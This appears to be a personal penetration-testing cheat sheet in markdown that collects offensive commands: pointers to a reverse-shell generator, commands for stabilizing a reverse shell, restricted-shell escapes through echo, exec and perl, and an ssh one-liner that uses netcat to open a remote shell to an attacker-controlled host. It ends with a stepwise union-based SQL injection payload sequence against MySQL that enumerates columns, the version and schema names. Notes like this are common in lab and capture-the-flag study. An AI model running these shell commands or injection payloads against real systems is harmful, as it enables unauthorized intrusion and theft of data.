 ```
```

##### Manual methods
```
until I learn the scripts, following manual method works,

go to
	https://www.revshells.com/
make the appropriate entries and tryout appropriate snippets
```

#### Stabilize the reverse shell by the following methods
```
python -c 'import pty;pty.spawn("/bin/bash")'
export SHELL=/bin/bash
export TERM=xterm-256color

```

#### restricted shell bypass
```
in a restricted shell condition, there apre few binaries that are used there, to bypass the fuckery of restricted shells, do the following

for [echo]
	echo os.system('/bin/bash')

for [exec]
	exec "/bin/sh";

for [perl]
	perl -e 'exec "/bin/sh";'

direct from ssh with aachine having netcat
	ssh [attack-user]@[attack-ip] nc [local-ip] [local-port] -e /bin/sh



```

#### SQL Injection
```
works with MySQL
start with
	1' or '1' = '1

if result returns form is vulnerable
try union method

	1' UNION ALL SELECT 1 -- -

see if output cones
if result is null, increase the number till something comes up, the count determines the number of columns

	1' UNION ALL SELECT 1,2,3,4,5,6 -- -

now the column is determined, we will go for other details

	1' UNION ALL SELECT @@version,2,3,4,5,6 -- -
		the above payload will throw up database version

	1' UNION ALL SELECT concat(SCHEMA_NAME),2,3,4,5,6 FROM information_schema.schemata -- -
		the above payload will fetch for database names in information schema database

```